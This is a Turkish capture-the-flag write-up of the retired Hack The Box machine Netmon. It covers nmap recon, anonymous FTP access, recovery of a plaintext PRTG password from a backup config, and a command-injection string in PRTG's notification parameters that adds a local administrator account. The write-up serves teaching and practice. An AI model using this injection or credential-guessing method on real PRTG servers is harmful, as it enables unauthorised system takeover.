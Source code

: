 ```yaml
---
{"dg-publish":true,"permalink":"/ctf/netmon-ctf/"}
---
```


Netmon, şimdiye kadar yaptığım en kısa kutular arasında Jerry ve Blue ile yarışıyor. Kullanıcı ilk kanı 2 dakikadan kısa sürede alındı ve bu süre muhtemelen daha da kısa olabilirdi, çünkü Hack The Box sayfası açıldığı anda birçok kişi bayrak göndermeye çalışırken çöktü.

Sunucu, anonim FTP üzerinden tüm dosya sistemini sunuyor, bu da kullanıcı bayrağını almak için yeterli. Ayrıca, 80. port üzerinde bir PRTG Network Monitor örneği barındırıyor. FTP erişimini kullanarak eski kimlik bilgilerini bir yedek yapılandırma dosyasında bulacağım ve bunları mevcut kimlik bilgilerini tahmin etmek için kullanacağım. Daha sonra, PRTG içindeki bir komut enjeksiyonu güvenlik açığından yararlanarak SYSTEM yetkileriyle bir reverse shell alıp root bayrağını ele geçireceğim.


## Box Info

|Name|[Netmon](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fnetmon)[![Netmon](https://0xdf.gitlab.io/icons/box-netmon.png)](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fnetmon)  <br>[Play on HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fnetmon)|
|---|---|
|Release Date|[02 Mar 2019](https://twitter.com/hackthebox_eu/status/1101032274592706565)|
|Retire Date|29 Jun 2019|
|OS|Windows ![Windows](https://0xdf.gitlab.io/icons/Windows.png)|
|Base Points|Easy [20]|
|Rated Difficulty|![Rated difficulty for Netmon](https://0xdf.gitlab.io/img/netmon-diff.png)|
|Radar Graph|![Radar chart for Netmon](https://0xdf.gitlab.io/img/netmon-radar.png)|
|![First Blood User](https://0xdf.gitlab.io/icons/first-blood-user.png)|00:01:53[![Baku](https://www.hackthebox.com/badge/image/80475)](https://app.hackthebox.com/users/80475)|
|![First Blood Root](https://0xdf.gitlab.io/icons/first-blood-root.png)|00:54:48[![snowscan](https://www.hackthebox.com/badge/image/9267)](https://app.hackthebox.com/users/9267)|
|Creator|[![mrb3n](https://www.hackthebox.com/badge/image/2984)](https://app.hackthebox.com/users/2984)|

## Recon

### nmap

![Pasted image 20250208143525.png](/img/user/resimler/Pasted%20image%2020250208143525.png)

```
nmap -sV -sC -p 21,80,135,139,445,5985 10.10.10.152
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 06:38 EST
Nmap scan report for 10.10.10.152
Host is up (0.82s latency).

PORT     STATE SERVICE      VERSION
21/tcp   open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
80/tcp   open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-08T11:38:31
|_  start_date: 2025-02-08T11:28:14
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.28 seconds
```

### HTTP - PRTG Network Monitor - TCP 80

Sayfa, PRTG Network Monitor'ün (NETMON) bir örneğidir:

![Pasted image 20250208144033.png](/img/user/resimler/Pasted%20image%2020250208144033.png)

Bu aşamada kimlik bilgileri olmadan, [varsayılan](https://www.cleancss.com/router-default/PRTG/PRTG_Network_Monitor) kimlik bilgileri olan 'prtgadmin'/'prtgadmin' ile deneme yapacağım. Eğer bu bilgiler çalışmazsa, FTP'ye geçeceğim

### FTP - TCP 21

#### Login

FTP anonim girişe izin verdiğinden, kontrol edip ne bulabileceğime bakacağım:

![Pasted image 20250208144323.png](/img/user/resimler/Pasted%20image%2020250208144323.png)


#### user.txt

FTP root'u C:\ gibi görünüyor. Buradan user.txt dosyasını alabilirim:

![Pasted image 20250208144503.png](/img/user/resimler/Pasted%20image%2020250208144503.png)


#### PRTG Network Monitor

"**\ProgramData\Paessler\PRTG Network Monitor** dizininde, PRTG Network Monitor uygulamasıyla ilgili bilgileri bulacağım."

```
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19  11:40PM       <DIR>          Configuration Auto-Backups
03-04-19  12:44PM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)
02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
03-04-19  12:44PM       <DIR>          Logs (Web Server)
03-04-19  12:49PM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
03-04-19  01:24PM              1227115 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
03-04-19  01:25PM              1672215 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
226 Transfer complete.
```

Üç config (yapılandırma) dosyasını alıp inceleyeceğim. **.dat** dosyası ve **.old** dosyasında şifrelerin olabileceği kısımlara baktığımda, genellikle şu şekilde görünür:

```
wget ftp://anonymous:anonymous@10.10.10.152/ProgramData/Paessler/PRTG\ Network\ Monitor/PRTG\ Configuration.old.bak
```

![Pasted image 20250208150306.png](/img/user/resimler/Pasted%20image%2020250208150306.png)


```
            <dbpassword>
              <flags>
                <encrypted/>
              </flags>
            </dbpassword>
```

Ancak, PRTG Configuration.old.bak dosyasında şunu buldum:

```
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
```


## Shell as SYSTEM

### Log In

Artık kimlik bilgilerine sahibim, bu yüzden giriş yapmayı deneyebilirim. Ne yazık ki, **.bak** dosyasından alınan kimlik bilgilerini denediğimde şu sonuç dönüyor:


![Pasted image 20250208144910.png](/img/user/resimler/Pasted%20image%2020250208144910.png)

Ancak biraz düşününce, kimlik bilgileri eski bir dosyanın yedeğinden alınmış ve **2018** ile bitiyor. **2019**'u deneyeceğim ve bu işe yarıyor, beni Sistem Yöneticisi için PRTG panosuna yönlendiriyor:

![Pasted image 20250208145109.png](/img/user/resimler/Pasted%20image%2020250208145109.png)

### Command Injection

2018 yazında PRTG'deki komut enjeksiyonu (command injection) hakkında bir [blog](https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/) yazısı var. Bu komut enjeksiyonu, bildirim yapılandırmasındaki parametreler alanında, bazı varsayılan Demo scriptleriye birlikte bulunuyor. Birçok kullanışlı karakter filtrelenmiş olsa da, yazıda bahsedilen kişi, hesaba yeni bir kullanıcı eklemek için enjeksiyon yapmayı başarmış.

Ben de bu blog yazısını takip ederek, **Kurulum > Hesap Ayarları > Bildirimler** bölümüne gideceğim:

En sağdaki **artı (+) butonuna** tıklayıp, ardından **'Yeni Bildirim Ekle'** seçeneğini seçeceğim. Diğer tüm ayarları değiştirmeden bırakıp, en aşağıya kaydırarak **'Program Çalıştır'** seçeneğini seçeceğim. Enjeksiyon, **Parametreler** alanında gerçekleşiyor. Program dosyası olarak **demo ps1 dosyasını** seçip, ardından şu komutu gireceğim:

```
test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add
```

![Pasted image 20250208151528.png](/img/user/resimler/Pasted%20image%2020250208151528.png)

Kaydet'e tıkladığımda, bildirimler listesinin başına geri dönüyorum. Yeni bildirimimin yanındaki kutuya tıklayıp, ardından üstteki çan simgesine tıklayarak bildirimi test edeceğim.

![Pasted image 20250208151547.png](/img/user/resimler/Pasted%20image%2020250208151547.png)

I get this:

![Pasted image 20250208151643.png](/img/user/resimler/Pasted%20image%2020250208151643.png)

Birkaç saniye bekledikten sonra, yeni kullanıcımla smbmap'i çalıştıracağım ve tam erişimim olduğunu göreceğim:

![Pasted image 20250208151902.png](/img/user/resimler/Pasted%20image%2020250208151902.png)
![Pasted image 20250208151909.png](/img/user/resimler/Pasted%20image%2020250208151909.png)

### Shell

![Pasted image 20250208152527.png](/img/user/resimler/Pasted%20image%2020250208152527.png)

![Pasted image 20250208152514.png](/img/user/resimler/Pasted%20image%2020250208152514.png)

